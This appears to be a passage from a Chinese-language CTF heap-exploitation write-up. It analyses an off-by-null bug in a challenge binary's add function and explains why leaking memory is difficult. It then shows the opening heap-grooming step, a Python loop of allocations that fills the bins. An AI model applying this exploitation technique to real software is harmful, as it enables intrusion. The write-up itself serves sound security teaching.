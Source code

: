 程序的流程比較清晰簡單，在 add 函數中，存在明顯的 off-by-null。

![](./figure/add-function.png)

而 free 中對被 free 的指針進行了置空，導致無法直接 show，而程序對我們的輸入末尾附加 `\x00`，也無法使用釋放再申請的方法，leak 比較困難。

分析結束。接下來進行利用

爲了調試方便，建議先關閉 aslr。

一開始的時候 bin 中非常的雜亂，先把這些亂七八糟的東西申請出來

```python
for i in range(16):
    add(0x10,'fill')

for i in range(16):
    add(0x60,'fill')

for i in range(9):
    add(0x70,'fill')

for i in range(5):
    add(0xC0,'fill')

for i in range(2):
    add(0xE0,'fill')

add(0x170,'fill')
add(0x190,'fill')
# 49
```
